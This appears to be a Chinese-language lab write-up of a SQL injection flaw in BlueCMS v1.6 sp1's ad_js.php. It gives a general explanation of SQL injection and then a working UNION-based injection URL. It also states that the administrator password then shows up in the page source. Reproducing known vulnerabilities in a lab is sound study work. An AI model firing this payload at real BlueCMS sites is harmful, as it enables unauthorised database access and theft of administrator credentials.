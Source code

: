 # 漏洞名字
**BlueCMS v1.6 sp1 ad_js.php SQL注入漏洞**
# 漏洞描述
SQL Injection：就是通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。

具体来说，它是利用现有应用程序，将（恶意）的SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。
首先让我们了解什么时候可能发生SQL Injection。

假设我们在浏览器中输入URL www.sample.com，由于它只是对页面的简单请求无需对数据库动进行动态请求，所以它不存在SQL Injection，当我们输入www.sample.com?testid=23时，我们在URL中传递变量testid，并且提供值为23，由于它是对数据库进行动态查询的请求（其中?testid＝23表示数据库查询变量），所以我们可以该URL中嵌入恶意SQL语句。

# 实践
初始化好环境

![image]({path}/1.png)

在浏览器输入
```
http://ip:port/ad_js.php?ad_id=1%20and%201=2%20union%20select%201,2,3,4,5,md5(3.1415),md5(3.1415)
```
右键查看源代码

![image]({path}/2.png)

管理员的密码就隐藏在html中

![image]({path}/3.png)